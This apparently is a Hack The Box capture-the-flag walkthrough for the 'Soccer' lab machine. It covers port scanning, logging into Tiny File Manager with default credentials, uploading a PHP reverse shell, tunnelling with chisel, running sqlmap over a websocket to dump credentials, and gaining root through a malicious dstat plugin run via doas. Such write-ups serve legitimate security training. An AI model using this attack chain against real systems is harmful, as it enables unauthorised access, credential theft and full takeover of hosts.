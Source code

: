 <h2>Target: 10.129.90.77  Soccer </h2>

<b>Initial Access:</b><br>
nmap -Pn 10.129.90.77 --min-rate=5000 -p- |grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports: 22,80,9091

Enumerate these open ports further with nmap: <br>
nmap -Pn 10.129.90.77 --min-rate=5000 -p 22,80,9091 -sC -sV -oN nmap.soccer <br>
The output shows: 
 
![image](https://user-images.githubusercontent.com/93153300/208478531-1695c823-4ab5-4f75-8bf3-b70f7cb8d56e.png)
 
Visiting port 80 redirects to soccer.htb:

![image](https://user-images.githubusercontent.com/93153300/208478570-e925e70f-4dc8-49ee-8054-42ea312f4a5f.png)

To be able to access the site, add soccer.htb into the file /etc/hosts: 10.129.90.77  soccer.htb <br>

Visiting port 80 doesn’t show anything of interest.  Run directory brute force with dirsearch: dirsearch -r -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html -f -o dsearch.soccer

Dirsearch found a directory of /tiny/.  Visiting http://soccer.htb/tiny shows:
 
![image](https://user-images.githubusercontent.com/93153300/208478607-100fef3a-e6df-4ce3-8a19-6f1fb6955c95.png)

Google search ‘tiny file manager default credentials’.  We find default credentials of username admin and password admin@123.  Using these credentials we log in successfully and the page shows:
 
![image](https://user-images.githubusercontent.com/93153300/208478653-f47c1eea-158b-4be9-8f11-2ec1c6dd8e0d.png)

The top right corner shows a ‘Upload’ option.  Click on the ‘Upload’ option.  The page now shows: 
 
![image](https://user-images.githubusercontent.com/93153300/208478673-f5b986d4-cfbd-4b9f-b8f5-14ae08a87f98.png)
 
Open a netcat listener (we will use pwncat as it gives a better shell): pwncat-cs -lp 443 <br>
Upload a php pentestmonkey reverse shell (we will call this file friends.php).  The upload fails saying “The specified folder for upload isn’t writeable.”:

 ![image](https://user-images.githubusercontent.com/93153300/208478716-81043541-cac1-44ed-b8f0-2fc92d96c5ec.png)
 
The error message indicates that the reason the upload fails is because we cannot write to this directory.  To bypass this, try to find a directory we have permissions to write to.  The main page shows all the files and directories, and the permissions to each one: 
 
![image](https://user-images.githubusercontent.com/93153300/208478738-e45cb7be-cb68-451e-9392-5e3345112b93.png)

These are all owned by root and we don’t have write permissions to any of them.  Check in the directory ‘tiny’ if we have write permissions: 
 
![image](https://user-images.githubusercontent.com/93153300/208478776-a2f5e7f8-eccf-468b-b763-74ed852c09c4.png)
 
The ‘uploads’ directory shows we have write permissions (0757).  Upload our php pentestmonkey reverse shell into that directory.  To do that, click on the ‘uploads’ directory, and then click on ‘Upload’ in the top right corner.  The file uploads successfully:
 
![image](https://user-images.githubusercontent.com/93153300/208478810-53cd0514-234c-4cf7-ab57-7259360201cf.png)
  
Activate the php pentestmonkey reverse shell by navigating to its location: <br> http://soccer.htb/tiny/uploads/friends.php  <br>
Our pwncat listener caught the shell.  We have shell as www-data.  
_________________________________________________________________________
<b>Lateral Movement:<b><br>
The file ‘/etc/passwd’ shows a username of ‘player’. <br>
Check network connections on the target with command: netstat -ln
 
![image](https://user-images.githubusercontent.com/93153300/208478836-0fc8efdc-29d1-4268-9e97-ff67567b2b01.png)

We find that port 3000 is only accessible locally (127.0.0.1).  Use ‘chisel’ to get access to port 3000 over the web.  

Step 1: On our kali run the ‘chisel’ server using the command: ./chisel server -p 1111 --reverse <br>
Step 2: Upload ‘chisel’ to the target.  
Step 3: Run chisel on the target using the command: ./chisel client 10.10.14.201:1111 R:2222: 127.0.0.1:3000

These commands we ran with ‘chisel’ will cause 127.0.0.1:2222 on our local pc to redirect to 127.0.0.1:3000 on the target pc.  

Navigate to port 3000 by putting in the url 127.0.0.1:2222.  The page shows:
 
![image](https://user-images.githubusercontent.com/93153300/208478860-323dfa88-6bcb-45b9-916e-16e6324360b6.png)

The page is very similar to port 80, but it has additional options showing in the top left corner (‘Match’, ‘Login’, and ‘Signup’).  Go to ‘Signup’ and create an account, and then use the account to login.  After logging in, the page shows:
 
![image](https://user-images.githubusercontent.com/93153300/208478883-5f21bd31-3563-42d3-9d70-ece17757b6df.png)

Capture this page request of http://127.0.0.1:2222/check in burp suite.  Forward the first capture, and then a second capture will appear in burp suite:
 
![image](https://user-images.githubusercontent.com/93153300/208478923-0d41865e-4147-44de-b0b5-79d1e5e3b43d.png)
 
We find a new subdomain: soc-player.soccer.htb.  Add the subdomain into the file ‘/etc/hosts’.

Also, we see 2 headers mentioning ‘websocket’.  Google search ‘websocket’ to learn more about websocket.  

Enter the ticket number id into the input (the ticket number id is given to us on the page): 
 
![image](https://user-images.githubusercontent.com/93153300/208478960-3812e4cd-e367-471f-86bd-bb1e1607905c.png)
 
Capturing this ticket number id input request in burp suite shows: 
 
![image](https://user-images.githubusercontent.com/93153300/208479008-4bc9cd3c-38c5-472f-acd1-cc47191d9783.png)
 
Check for sql injection on this ‘id’ parameter using sqlmap.  Because of the way websocket works we cannot use sqlmap the standard way.  Google search ‘sql injection websocket’.  We find a site that explains how to run a sql injection over websocket: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

Follow these steps to run the sql injection: <br>
Step 1: Copy the python script from https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html.   <br>
Step 2: In this script, we need to change the ‘ws_server’ parameter to the ws being used on our site.  To find this, read the source code to http://127.0.0.1:2222/check:
 
![image](https://user-images.githubusercontent.com/93153300/208479049-87acc6ab-33f3-4c00-aad3-ecb0050add57.png)

The source code shows that the input ticket id function connects to a websocket of: ws://soc-player.soccer.htb:9091.  <br>
Step 3: Change the ‘ws_server’ parameter to the ws found in the source code: ws://soc-player.soccer.htb:9091.  Also, change the ‘data’ parameter to: '{"id":"%s"}' % message:

![image](https://user-images.githubusercontent.com/93153300/208479092-31391c90-6fe5-4bb2-8ab2-3196a68d75db.png)

Step 3: Run the python script: python script.py <br>
Step 4: Run sqlmap: sqlmap -u "http://localhost:8081/?id=1" --batch --dbs  -D soccer_db --tables -T accounts --columns -C username,password --dump

Sqlmap found credentials: username ‘player’ and password ‘PlayerOftheMatch2022’:
 
![image](https://user-images.githubusercontent.com/93153300/208479145-4869bcd5-d989-44b8-8c6b-b7e55772aca3.png)
 
Use these credentials to ssh into user ‘player’:  ssh player@soccer.htb  → enter the password when prompted. <br>
We have shell as user ‘player’.  Get the flag in /home/player/user.txt.
______________________________________________________________
<b>Privilege Escalation:<b><br>
Step 1: Look for available suid files using the command: find / -perm /4000 2>/dev/null
 
![image](https://user-images.githubusercontent.com/93153300/208479161-9182902d-a7d3-48de-a40e-4d344259dec8.png)

We find a suid file called ‘doas’.  The file ‘doas’ allows us to run a file as another user (similar to sudo).  

Step 2: Find the ‘doas.conf’ file to see what we can run with ‘doas’.  To find this file run the command: find / -name doas* 2>/dev/null <br>
We find a file of ‘/usr/local/etc/doas.conf’.  Reading the file shows: 
 
![image](https://user-images.githubusercontent.com/93153300/208479189-fbc3cf81-5285-4374-a19a-427dbd59403a.png)

The file shows the user ‘player’ can run ‘/usr/bin/dstat’ as root without providing a password.  

Step 3: If we have permissions to write to the ‘dstat’ file then we can edit ‘dstat’ to include a malicious command, and run it as root.  Unfortunately, we do not have write permissions to the ‘dstat’ file.  

Reading about ‘dstat’ we learn that the file ‘dstat’ supports custom plugins.  So we can create a malicious plugin and then run that plugin with ‘dstat’.  

If we create the malicious plugin in a random directory then ‘dstat’ won’t find the malicious plugin.  So we need to find a directory that we have write permissions and is associated to ‘dsat’.  To check for such a directory run the command: find / -name dstat -ls 2>/dev/null
 
![image](https://user-images.githubusercontent.com/93153300/208479224-ad31c396-fea4-4937-8120-4e558b373030.png)
 
We find the directory ‘/usr/local/share/dstat’ has write permissions.  

Step 4: Navigate to that directory and create a plugin called ‘dstat_blob.py’ containing the following contents:
 
![image](https://user-images.githubusercontent.com/93153300/208479248-5aff83ce-2719-48a3-98c3-4e5ddd5288d6.png)

This plugin will cause ‘/bin/bash’ to become a suid which we can then use to become root.  (The plugin we create must start with ‘dstat_’ and end with ‘.py’, otherwise ‘dstat’ won’t find the plugin.)  <br>

Step 5: Run the command: doas -u root /usr/bin/dstat --blob <br>

Step 6: Finally run the command: /bin/bash -p <br>
We have shell as root.  Get the flag in /root/root.txt.  
